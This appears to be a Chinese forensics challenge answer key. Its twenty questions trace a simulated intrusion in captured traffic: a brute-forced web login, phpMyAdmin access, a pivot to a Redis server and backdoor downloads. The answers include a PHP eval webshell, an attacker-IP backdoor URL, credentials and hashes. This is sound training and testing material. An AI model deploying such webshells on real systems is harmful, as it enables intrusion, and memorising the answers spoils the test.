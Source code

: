 数据赛第三题
---
N-EM-00003
黑客团伙采用爆破的方法控制了一台外网web服务器 , 并且以此为跳板 , 进入了企业的内部网络 , 获得了企业内网的权限 , 并且植入了后门 , 达到长期控制的目的 , 你现在获得了攻击时间段所有的流量包 , 请基于次分析溯源黑客在攻击过程中做了那些操作 ?
1. 攻击者IP是多少 ? 
```
172.16.10.112
```
2. 攻击者发送给服务器的第一个HTTP请求的时间是 ? 
```
11:58:45
```
3. 黑客第一次成功登录目标服务器后台的账号和密码是 ? 
```
admin:admin123
```
4. 爆破出正确的目标服务器 admin 的密码前面 , 总共尝试爆破了几次 ? 
```
3
```
5. 黑客是什么时候对网站开始目录扫描的 ? 
```
12:05:48
```
6. 黑客在成功登录phpmyadmin前手工尝试了几个错误密码 ?
```
4
```
7. 目标网站 admin 用户的密文是什么 ?
```
root:root
```
8. 目标网站 mtfly 用户在数据库中的密码的密文是什么 ? 
```
$P$BCIX.GHuePX.kNtTjEWd6QCnzYFzrT1
```
9. 黑客修改了 mtfly 的密码密文为 ?
```
e10adc3949ba59abbe56e057f20f883e
```
10. 黑客写入目标服务器的一句话木马是 ? 
```
<?php eval($_POST[ge]);>
```
11. 网站根目录的绝对目录是什么 ?
```
C:\phpStudy\WWW\
```
12. 黑客执行 whoami 后的命令是什么 ? 
```
systeminfo
```
13. 目标服务器操作系统的 administrator 的密码是什么 ? 
```
Simplexue123
```
14. 黑客在目标服务器上植入了一个木马 , 木马上线的端口是什么 ? 
```
4455
```
15. 黑客以第一台主机为跳板入侵了内网中的一台redis服务器，跳板机第一次连接redis的时间是？（注：北京时间，格式为时:分:秒）
```
12:45:28
```
16. Redis服务器开放redis服务的端口号是？
```
8889
```
17. 黑客在redis服务器上下载了一个后门文件，请问下载的地址是？
```
http://172.16.10.112/backboor.zip
```
18. 黑客控制了redis服务器，用nmap对内网中另外一台web服务器发起了扫描，请问开始的时间是？（注：北京时间，格式为时:分:秒）
```
13:23:44
```
19. 黑客连接内网web服务器的一句话木马的密码是？
```
simple
```
20. 最后黑客在内网服务器上下载了一个后门文件，该后门文件的文件名是？
```
backboor2.zip
```

